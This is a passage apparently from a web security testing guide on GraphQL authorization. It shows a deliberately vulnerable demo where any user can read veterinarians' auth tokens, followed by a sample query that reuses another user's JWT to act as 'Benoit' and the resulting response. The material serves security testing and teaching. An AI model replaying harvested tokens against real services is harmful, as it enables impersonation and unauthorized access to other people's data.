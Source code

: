 ![Auth GraphQL Query](images/auth1.png)\
*Figure 12.1-4: GraphQL Auth Query API*

Testing the authorization implementation varies from deployment to deployment since each schema will have different sensitive information, and hence, different targets to focus on.

In this vulnerable example, every user (even unauthenticated) can gain access to the auth tokens of every veterinarian listed in the database. These tokens can be used to perform additional actions the schema allows, such as associating or disassociating a dog from any specified veterinarian using mutations, even if there is no matching auth token for the veterinarian in the request.

Here is an example in which the tester uses an extracted token they do not own to perform an action as the veterinarian "Benoit":

```graphql
query brokenAccessControl {
  myInfo(accessToken:"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdWQiOiJwb2MiLCJzdWIiOiJKdWxpZW4iLCJpc3MiOiJBdXRoU3lzdGVtIiwiZXhwIjoxNjAzMjkxMDE2fQ.r3r0hRX_t7YLiZ2c2NronQ0eJp8fSs-sOUpLyK844ew", veterinaryId: 2){
    id, name, dogs {
      name
    }
  }
}
```

And the response:

```json
{
  "data": {
    "myInfo": {
      "id": 2,
      "name": "Benoit",
      "dogs": [
        {
          "name": "Babou"
        },
        {
          "name": "Baboune"
        },
        {
          "name": "Babylon"
        },
        {
          "name": "..."
        }
      ]
    }
  }
}
```
